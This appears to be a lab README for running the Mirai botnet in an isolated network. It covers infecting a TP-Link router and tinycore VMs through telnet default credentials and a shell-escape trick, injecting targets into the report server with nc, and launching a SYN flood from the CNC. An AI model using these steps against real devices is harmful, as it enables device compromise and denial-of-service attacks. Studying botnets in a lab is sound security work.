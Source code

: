 # Performing attack

## Experiment 1: real hardware

Though Mirai supports wide range of devices,
there are some requirements:

  * Device is in reachable network (not behind NAT/firewall)
  * Device has telnet (or ssh) daemon binded to interface on reachable network (ex. modem allows telnet access from internet port)
  * Device runs linux-like system and has busybox binary (that includes `cp`, `cat`, `chmod` and either `wget` or `tftp`)
  * Access to busybox/sh can be gained with one of known commands (ex. TD-W8968 needs `echo && sh` hack that is not expected in Mirai and should be added)
  * There is a path with write access
  * Device admin password is known (initial device) or is one from Mirai dictionary

I have used TP-Link TD-W8968 SOHO router/modem as target device. It is based on Broadcom MIPS SoC 
(MIPS-I version 1 (SYSV)), that is one of supported archs. This device fits most of requirements, other can be fixed. 

One of Mirai features is using DNS to connect to CNC. I am using dnsmasq both for dns and tftp server:

  - DNS configuration has only one record: `cnc.loacal` for `192.168.1.11` (see network table from previous section)
  - TFTP root is `/tftp` (`/vagrant/tftp` in VM), directory is created and populated automaticly while provisioning

VM's network is configured to bridge to CISCO (Realtek) network adapter. The target device should be connected to this interface directly or via hub or
switch __before__ starting lab. 

The first step is to install vagrant and vbox (and patch vagrant). This is done manualy with `lab_setup/install_vbox_vagrant.cmd`. After that reboot is required.
Also it is important to make sure Hyper-V is off, otherwise VirtualBox can not run VMs.

After reboot launching `lab_setup/setup.cmd` sets up SSD for VMs and configures CISCO adapter. Now everything is ready to start mirai server with `START build.cmd`.

If build was ok, mirai server VM is configured and running and mirai binaries are compiled and deployed to folders. It is time to turn on target device if it is
not yet on. 

After that trying to access it with telnet: `telnet 192.168.1.1`. (Well `192.168.1.1` is default ip for my TP-Link router, on other routers it may be
necessary to adjust it's ip settings make changes in configurations. If device is on `192.168.1.0/24` subnet, the only change is in `/config/hosts.txt`. If not,
address of mirai server vm should be changed.) 

On my TP-Link after login I get some kind of vendor's restricted shell, that is not much usefull, but with `echo && sh`
it is possible to trick it and run busybox sh shell. Unfortunately mirai's loader does not know about this so I have manualy added it loader (it already tries `enable`
after login command for example).

The next step is starting cnc and loader with `START run.cmd`. CNC server is started on `192.168.1.11:23`, reports server at `192.168.1.11:48101` and loader is connected
to it with a pipe. Reports server first reads records from `/config/hosts` and passes them to the loader. In my case the only record is `192.168.1.1:23 admin:admin`.
Loader receives it and uses to connect to my router. If everything goes ok, we see message `ok` with ip address.

Now connect to CNC with `START cnc.cmd`, login is `mirai` and password is `password`. And `botcount` command should print that one mips host is connected. That means everything
is fine and DDoS (well DoS in this case) can be launched like `syn 192.168.1.10 20`. Wireshark on host machine should display number of TCP SYN packets. 

## Experiment 2: virtual targets

Often it is more convenient to do labs on virtual hardware. Mirai also supports x86 arch, so it's targets can be normal vbox VMs. 

In this experiment bridging is not necessary, because only virtual hosts are used.
But to make it possible to mix experiments, same network setup is used. 

With `START build_vms.cmd` three small VMs with tinycore are build. Provisioning is done with another shell script. Unfortunatly telnetd from tc repository works in
a strange way, so I used debian binary and unpacked it manualy. Well the next problem with telnetd is that it's too complicated for mirai loader and does too many negotiations,
while loader's telnet client is not very RFC-friendly. So I've done some changes to loader to fix it.

The next step is add one of virtual hosts to `/config/hosts.txt` and `START run.cmd`. Bot scanner will take a lot of time, so we can pass other hosts to report server with: 
`vagrant ssh mirai` and `echo -e '\x00\xc0\xa8\x01\x66\x17\x00\x05admin\x05admin' | nc 127.0.0.1 48101` and `echo -e '\x00\xc0\xa8\x01\x67\x17\x00\x05admin\x05admin' | nc 127.0.0.1 48101`.

Againg, starting cnc: `START cnc.cmd` and do `botcount` and some kind of DDoS.




